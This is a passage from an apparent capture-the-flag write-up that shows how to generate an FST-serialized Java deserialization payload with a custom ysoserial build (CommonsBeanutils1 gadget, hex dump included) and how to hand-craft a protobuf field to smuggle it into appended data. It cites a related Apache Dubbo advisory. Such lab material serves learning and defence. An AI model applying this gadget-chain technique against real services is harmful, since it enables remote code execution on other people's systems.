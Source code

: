 ```shell
root@58cc9472a197:/opt/wonderland# java -jar ysoserial-fst-private-master/target/ysoserial-0.0.6-SNAPSHOT-all.jar -fst CommonsBeanutils1 ls | xxd
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by org.nustaq.serialization.FSTClazzInfo (file:/opt/wonderland/ysoserial-fst-private-master/target/ysoserial-0.0.6-SNAPSHOT-all.jar) to field java.lang.String.value
WARNING: Please consider reporting this to the maintainers of org.nustaq.serialization.FSTClazzInfo
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
00000000: 0001 176a 6176 612e 7574 696c 2e50 7269  ...java.util.Pri
00000010: 6f72 6974 7951 7565 7565 3763 0200 012b  orityQueue7c...+
00000020: 6f72 672e 6170 6163 6865 2e63 6f6d 6d6f  org.apache.commo
00000030: 6e73 2e62 6561 6e75 7469 6c73 2e42 6561  ns.beanutils.Bea
00000040: 6e43 6f6d 7061 7261 746f 7200 013f 6f72  nComparator..?or
...
```

This custom copy of ysoserial can also be found at [this
repository](https://github.com/nnamon/ysoserial-fst-tisc).

Note that a similar bug was discovered by Checkmarx in Apache Dubbo after the challenge was created.
The writeup can be found on [their
blog](https://checkmarx.com/blog/the-0xdabb-of-doom-cve-2021-25641/) and their solution could also
be adapted to this challenge.

#### Crafting Protobuf Fields Manually

Now that we have our means of forging appended data as well as the generation of the FST serialized
payload, our next goal is to construct the protobuf field to be appended. The ideal next step is to
create a fake fireworks field containing the attack payload.

To do this, we must first understand what varints and keys are from the [Protobuf Encoding
documentation](https://developers.google.com/protocol-buffers/docs/encoding). The official article
is excellent, please read until the 'Message Structure' section.

Since a protocol buffer message is a series of key-value pairs', we can simply add on an additional
key-value pair.

This is the field we want to construct:

```proto
    repeated bytes fireworks = 5;
```

In a nutshell, we have to lay it out like so:

```
[varint: field << 3 | wire type] [varint: length] [bytes: data]
```

Once this is constructed, we can encode it with Base64 and attempt to append it to the original
data.

#### Crafting an Exploit
